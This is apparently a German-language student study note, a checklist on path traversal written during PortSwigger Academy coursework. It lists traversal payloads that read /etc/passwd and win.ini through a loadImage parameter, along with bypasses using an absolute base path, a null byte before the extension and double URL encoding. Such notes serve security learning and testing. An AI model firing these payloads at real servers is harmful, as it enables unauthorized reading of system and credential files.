

repository: IamNico42/portfolio · page: studium/Cyber-Security Praxissemester/Portswigger-Academy/Path traversal/Checkliste Path Traversal/index.html · generator: mkdocs

---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/PSS
---
## Checkliste

1. Prüfen ob irgendwo Pfade aufgerufen werden z. B. wenn Bilder oder andere Inhalte geladen werden.

```html
<img src="/loadImage?filename=218.png">
```


`....//....//....//etc/passwd`

Linux/Win
`https://insecure-website.com/loadImage?filename=../../../etc/passwd`
`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`

**Bypasses:**
- Expected Base Pfad `filename=/var/www/images/../../../etc/passwd`
- Expected File Extension `filename=/../../../etc/passwd%00.png`
- Encoding `..%252f..%252f..%252fetc/passwd`
